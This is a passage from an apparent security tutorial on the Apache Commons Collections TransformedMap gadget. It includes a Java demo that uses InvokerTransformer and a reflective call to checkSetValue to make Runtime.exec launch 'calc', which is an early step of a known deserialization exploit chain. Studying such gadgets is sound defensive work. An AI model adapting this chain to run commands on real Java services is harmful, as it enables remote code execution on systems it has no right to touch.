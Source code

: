 {: .nolineno file="org.apache.commons.collections.map.TransformedMap"}



Parameters:

- `Map map`: The original `Map` being decorated.
- `Transformer keyTransformer`: The logic for transforming the keys.
- `Transformer valueTransformer`: The logic for transforming the values.

```java
package com.B1ng0OOO;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class Demo {
    public static void main(String[] args) {
        try {
            Runtime runtime = Runtime.getRuntime();
            InvokerTransformer exec = (InvokerTransformer) InvokerTransformer.getInstance("exec", new Class[]{String.class}, new Object[]{"calc"});

            Class<?> transformedMapClass = Class.forName("org.apache.commons.collections.map.TransformedMap");
            Method checkSetValue = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);
            checkSetValue.setAccessible(true);
            
            HashMap<Object, Object> hashMap = new HashMap<>();
            hashMap.put("key", "value");
            Map<Object, Object> decorate = TransformedMap.decorate(hashMap, null, exec);
            checkSetValue.invoke(decorate, runtime);
            
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno file="com.B1ng0OOO.Demo"}
